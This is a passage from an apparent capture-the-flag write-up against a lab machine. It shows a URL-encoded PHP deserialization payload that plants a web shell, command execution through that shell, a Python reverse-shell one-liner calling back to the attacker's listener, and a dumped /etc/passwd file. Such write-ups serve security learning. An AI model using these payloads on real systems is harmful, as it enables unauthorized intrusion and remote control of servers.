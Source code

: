 Here the URL-encoded form:

http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:{s:9:%22user_file%22;s:9:%22noraj.php%22;s:4:%22data%22;s:28:%22%3C?php%20system($_GET[%22cmd%22])?%3E%22;}

Then we can access teh webshell and execute a command: http://10.10.10.223/noraj.php?cmd=id

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We know the upload and command exec works so let's execute a reverse shell:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.44",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We receive it on our reverse shell:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
id
INFO: Client connected from 10.10.10.223:59112 (family 2/IPv4, TCP)
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`cat /etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
neil:x:1001:1001:neil,,,:/home/neil:/bin/bash
```
